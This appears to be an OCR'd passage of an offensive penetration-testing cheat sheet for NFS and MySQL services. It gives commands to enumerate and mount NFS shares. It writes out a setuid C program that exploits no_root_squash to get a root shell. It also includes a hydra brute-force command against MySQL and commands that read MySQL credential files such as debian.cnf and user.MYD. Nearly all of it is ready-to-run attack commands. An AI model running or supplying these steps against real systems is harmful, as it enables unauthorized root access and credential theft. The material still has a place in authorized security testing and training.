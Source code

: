 ```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

### Mount a share

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

### NFS misconfigurations

```
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no_root_squash/no_all_squash you may be able to privesc.

```
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```

------

## MYSQL - 3306

### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

### Extracting MySQL credentials from files

```
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```
